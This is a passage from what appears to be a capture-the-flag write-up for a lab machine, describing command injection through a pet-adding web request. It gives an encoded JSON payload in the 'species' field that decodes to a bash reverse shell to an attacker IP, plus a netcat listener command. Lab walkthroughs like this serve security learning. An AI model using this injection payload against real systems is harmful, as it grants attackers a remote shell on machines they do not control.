 <img src="../images/articles/devzat/pet.png" />
This subdomain has a functionality to add a pet. Capturing the request with burpsuite i was able to do some remote code execution (RCE)
<img src="../images/articles/devzat/burp.png" />

#### Getting reverse shell
Lets modify the species parameter, we have to use some command to establish a reverse shell in base64 and then we will decode it and execute it on the victim machine.
<img src="../images/articles/devzat/term.png" />
```
{
"name":"cat",
"species":"`echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi44LzQ0NDQgMD4mMQo=|base64 -d|bash`"
}
```
Before sending the request we open a netcat listener to establish a connection with our reversshell.
```
rlwrap nc -nlvp 4444
```